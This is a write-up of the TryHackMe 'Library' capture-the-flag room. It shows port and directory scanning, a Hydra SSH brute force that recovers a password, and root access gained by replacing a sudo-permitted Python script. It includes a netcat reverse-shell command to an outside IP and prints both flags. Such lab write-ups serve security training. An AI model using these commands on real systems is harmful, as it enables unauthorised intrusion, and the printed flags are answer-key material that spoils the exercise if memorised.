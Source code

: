 ```yaml
---
title: "Library CTF - TryHackMe"
category: "THM"
pubDate: 2020-06-11
description: "Writeup for the Library CTF room on TryHackMe"
---
```

[TryHackMe | Library CTF](https://tryhackme.com/room/bsidesgtlibrary)

Read user.txt and root.txt

---

### Setup

```
➜  TryHackMe nmap -A -vv 10.10.98.89
```

```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
|   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://imgur.com/NWlX0nd.png)

Let's see if there is some hidden directory 😔

```
➜  ~ dirb http://10.10.98.89/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jun  9 16:57:31 2020
URL_BASE: http://10.10.98.89/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.98.89/ ----
==> DIRECTORY: http://10.10.98.89/images/
+ http://10.10.98.89/index.html (CODE:200|SIZE:5439)
+ http://10.10.98.89/robots.txt (CODE:200|SIZE:33)
+ http://10.10.98.89/server-status (CODE:403|SIZE:299)
```

![](https://imgur.com/R4JWXDR.png)

![](https://imgur.com/oY8Ps8x.png)

"Posted by meliodas" maybe a username ? let's keep it..

There is nothing on the website, this is a simple landing page with HTML nothing to attack there, but there is something interresting on the "robots.txt" the "User-agent: Rockyou".

Let's try to crack the ssh password with Hydra 🥰

```
# Meliodas was the name that we found on the index.html and rockyou is a list of common password
➜  TryHackMe hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.98.89
```

![](https://imgur.com/ZMBdybW.png)

```
[22][ssh] host: 10.10.98.89   login: meliodas   password: iloveyou1
```

### #1 user.txt

![](https://imgur.com/i4x8ElV.png)

```
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

### #2 root.txt

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Ok now, we know that we can execute a python script with the root privileges let's try to have a root shell and run it with sudo 🤓

```
meliodas@ubuntu:~$ echo 'nc -e /bin/sh 10.9.2.228 4444' > bak.py
-bash: bak.py: Permission denied
```

Well.. That doesn't work let's try something else..

On the sudo -l command we can see the path of the file "/home/meliodas/bak.py"

Let's delete it and recreate our own one 🤑

```
meliodas@ubuntu:~$ rm -rf /home/meliodas/bak.py
```

```
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt
$ cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```


